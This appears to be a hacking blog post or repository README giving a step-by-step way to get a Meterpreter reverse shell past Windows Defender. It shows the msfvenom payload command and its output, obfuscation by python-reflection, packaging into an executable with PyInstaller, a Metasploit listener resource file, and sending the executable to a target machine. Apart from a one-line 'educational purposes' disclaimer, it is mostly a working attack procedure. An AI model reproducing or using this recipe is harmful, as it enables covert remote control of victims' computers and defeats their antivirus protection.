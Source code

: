 ```yaml
---
title: Windows AV Evasion (msfvenom edition)
image: /assets/img/Anexos/rev_shell_AV_evasion.gif
description: The easiest way to achieve a reverse shell bypassing Windows Defender
categories: [Hacking, Windows]
tags: [av-evasion, meterpreter, windows-defender]
mermaid: true
---
```




> [!WARNING]  
> The entire article and the information shown is only for educational and informational purposes.

## Introduction

In this post, we'll explore a method to bypass Windows Defender using Python and Meterpreter to achieve a reverse shell.

> Git repo -> https://github.com/juanbelin/Windows-AV-Evasion 

## Step-by-Step Process

### 1. Creating the Payload

First, we'll use `msfvenom` to create the payload as a `.py` file using `python-reflection` for built-in obfuscation:

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.20 lport=443 -f python-reflection -o reload.py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 203846 bytes
Final size of python-reflection file: 1337649 bytes
Saved as: reload.py
```

### 2. Adding Required Libraries

We need to add `ctypes` since it's required by `python-reflection`:

```shell
nano reload.py 
```

![](/assets/img/Anexos/Windows_AV.png)


### 3. Generating the Executable

We can create the executable using PyInstaller either from Windows or through `wine`:

Using Wine:
```shell
wine pyinstaller -F hoax_shell.py --onefile
```

Or directly in Windows:
```powershell
pyinstaller -F hoax_shell.py --onefile
```

### 4. Setting Up the Listener

Create a Metasploit resource file (`test.rc`):

```shell
use payload windows/x64/meterpreter_reverse_tcp
set lhost 192.168.1.20
set lport 443 
exploit
```

Start the listener:
```bash
msfconsole -r test.rc
```

### 5. Execution

Send the `.exe` to the target machine and execute it either through GUI (RDP) or remote command execution.

![](/assets/img/Anexos/rev_shell_AV_evasion.gif)

### Listener Script Usage

The script provides a listener for incoming connections:

```shell
$ ./listiner.sh

[!] Missing parameters.

[USE] ./test.sh <LHOST> <LPORT>

Parameters:
  <LHOST>   LOCAL IP
  <LPORT>   LOCAL PORT

Example: ./test.sh 192.168.1.20 443
```
